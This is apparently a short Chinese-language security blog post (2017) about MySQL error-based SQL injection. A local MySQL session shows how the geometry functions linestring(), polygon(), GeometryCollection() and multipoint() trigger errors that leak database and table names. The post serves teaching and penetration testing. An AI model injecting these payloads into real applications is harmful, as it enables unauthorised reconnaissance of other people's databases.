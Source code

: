 ```yaml
---
layout:     post
title:      mysql利用几何属性函数实现报错注入
subtitle:   
date:       2017-11-03
author:     sp4rk
header-img: 
catalog: true
tags:
    - mysql
	- sql injection
---
```




mysql空间数据库用于储存一些几何空间数据([mysql官方文档参考](!https://dev.mysql.com/doc/refman/5.5/en/gis-property-functions.html))，可以利用其中的几何属性函数进行报错注入


<!--more-->


```
mysql> select * from users where user_id=1;
+---------+------+------------+
| user_id | user | password   |
+---------+------+------------+
|       1 | test | zheshimima |
+---------+------+------------+
1 row in set (0.00 sec)

mysql> select * from users where user_id=1 and linestring(user_id);
ERROR 1367 (22007): Illegal non geometric '`test`.`users`.`user_id`' value found during parsing

mysql> select * from users where user_id=1 and polygon(user_id);
ERROR 1367 (22007): Illegal non geometric '`test`.`users`.`user_id`' value found during parsing

mysql> select * from users where user_id=1 and GeometryCollection(user_id);
ERROR 1367 (22007): Illegal non geometric '`test`.`users`.`user_id`' value found during parsing

mysql> select * from users where user_id=1 and multipoint(user_id);
ERROR 1367 (22007): Illegal non geometric '`test`.`users`.`user_id`' value found during parsing
```
我这里本地测试发现下面这四个函数可以使用
linestring()
polygon()
geometrycolection()
multipoint()
从官方文档中可以发现这些函数都是对空间几何值进行操作，当出现非法的非几何值就会报错，可以直接爆所在数据库名，表名